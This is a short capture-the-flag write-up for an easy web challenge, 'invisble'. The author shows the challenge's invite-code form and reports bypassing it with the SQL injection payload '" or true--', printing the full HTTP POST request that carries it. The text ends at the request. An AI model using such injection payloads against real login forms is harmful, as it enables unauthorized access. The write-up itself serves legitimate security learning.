

# IncognitoCTF 3.0 - invisble
#### about : 
- Type: web 
- Level: easy 
- Points : 100
- Website : http://142.93.209.130:8000

<center></center>


in the webiste i found in the source code this form : 

```html
<div class='center'>
<form action="/invite" method="POST">
  <label for="code">Invite code :</label><br>
  <input type="text" id="code" name="code" placeholder="invite code"><br><br>
  <input type="submit" value="Submit">
</form>
</div>
```

so what i tried first was some sql injection
and after some fuzzing with burpsuite i found the login with **" or true** payload  : 

```
POST /invite HTTP/1.1
Host: 142.93.209.130:8000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:99.0) Gecko/20100101 Firefox/99.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://142.93.209.130:8000/
Content-Type: application/x-www-form-urlencoded
Content-Length: 22
Origin: http://142.93.209.130:8000
Connection: close
Upgrade-Insecure-Requests: 1
Sec-GPC: 1

code=%22%20or%20true--
```